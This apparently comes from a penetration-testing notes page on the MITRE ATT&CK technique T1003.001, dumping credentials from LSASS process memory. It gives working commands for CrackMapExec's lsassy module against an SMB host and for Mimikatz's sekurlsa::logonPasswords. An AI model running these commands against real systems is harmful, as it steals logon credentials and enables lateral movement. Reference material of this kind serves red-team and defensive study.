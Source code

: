 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1003.001
---
```


# LSASS Memory

### Description

After a user logs on, the system generates and stores a variety of credential materials in LSASS process memory. These credential materials can be harvested by an administrative user or SYSTEM and used to conduct [Lateral Movement](https://attack.mitre.org/tactics/TA0008) using [Use Alternate Authentication Material](https://attack.mitre.org/techniques/T1550).

### Dumping LSASS Memory

#### CrackMapExec

```bash
crackmapexec smb $ip -u $username -p $password -M lsassy
```

#### Mimikatz

```bash
sekurlsa::logonPasswords
```

### References

{% embed url="https://attack.mitre.org/techniques/T1003/001/" %}
